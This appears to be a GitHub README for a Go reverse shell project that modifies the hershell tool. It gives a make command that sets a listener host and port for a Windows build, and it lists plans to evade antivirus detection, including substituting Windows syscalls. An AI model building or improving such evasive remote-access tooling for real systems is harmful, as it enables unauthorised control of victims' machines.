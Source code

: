 # Shelly Shell - Golang

This repository contains a basic reverse shell written in golang.

The project is a slightly modified version of the initial hershell golang reverse shell, needs additional work to bypass other AV vendors.
`https://sysdream.com/news/lab/2018-01-15-en-golang-for-pentests-hershell/`

### Build
```
make GOOS=windows GOARCH=amd64 LHOST=127.0.0.1 LPORT=9999
```
### Todo
* Add in hershell functionality while keeping it AV clean
* Check what windows syscall occurs upon command execution (and see if we can substitute it with a different one to avoid AV)

